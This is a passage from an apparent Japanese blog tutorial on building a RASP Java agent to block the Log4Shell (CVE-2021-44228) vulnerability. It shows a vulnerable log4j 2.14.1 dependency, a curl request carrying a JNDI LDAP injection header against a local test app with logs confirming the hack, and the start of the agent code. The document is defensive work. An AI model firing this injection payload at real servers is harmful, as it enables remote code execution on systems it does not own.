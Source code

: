 　`Log4j`は脆弱なバージョンである`2.14.1`を利用しています。
<div class="md-code" style="width:100%">
```
dependencies {
	(...snip...)
	implementation group: 'org.apache.logging.log4j', name: 'log4j-api', version: '2.14.1'
	implementation group: 'org.apache.logging.log4j', name: 'log4j-core', version: '2.14.1'
}
```
</div>

#### 動作確認 (RASP適用前)

　RASPを適用前に動作確認を行います。攻撃が成功することが確認できます。

<div class="md-code" style="width:100%">
```
==================== アプリケーションを起動 ====================
$ java -jar build/libs/web_application-0.0.1-SNAPSHOT.jar
(...snip...)
2021-12-21 20:38:15.353  INFO 44920 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat started on port(s): 8080 (http) with context path ''
2021-12-21 20:38:15.363  INFO 44920 --- [           main] c.e.d.DemoApplication                    : Started DemoApplication in 1.896 seconds (JVM running for 2.912)


==================== 攻撃リクエストを送信 ====================
$ curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1:1389/a}'


==================== アプリケーション側のログ ====================
2021-12-21 20:38:15.353  INFO 44920 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat started on port(s): 8080 (http) with context path ''
2021-12-21 20:38:15.363  INFO 44920 --- [           main] c.e.d.DemoApplication                    : Started DemoApplication in 1.896 seconds (JVM running for 2.912)
12月 21, 2021 8:39:07 午後 org.apache.catalina.core.ApplicationContext log
情報: Initializing Spring DispatcherServlet 'dispatcherServlet'
2021-12-21 20:39:07.962  INFO 45042 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
2021-12-21 20:39:07.964  INFO 45042 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
-------HACKED------　⭐️　攻撃が成功している ⭐️
2021-12-21 20:39:07.995  INFO 45042 --- [nio-8080-exec-1] MainController                           : Received a request for API version javax.el.ELProcessor@b4b9e7a
```
</div>

### RASP の実装

　次にRASPを実装していきます。検証用ですので、必要最小限の実装になっています。

#### AgentMain クラス

　javaagentと読み込まれた際のエンドポイントとして`premain`メソッドを定義しています。  
<div class="md-code" style="width:100%">
```java
package com.example.cve_2021_44228_rasp;

import java.lang.instrument.Instrumentation;

public class AgentMain {

    public static void premain(String agentArg, Instrumentation inst) {
        System.out.println("Loading CVE-2021-44228 RASP");
        inst.addTransformer(new JndiLookupTransformer());
    }
```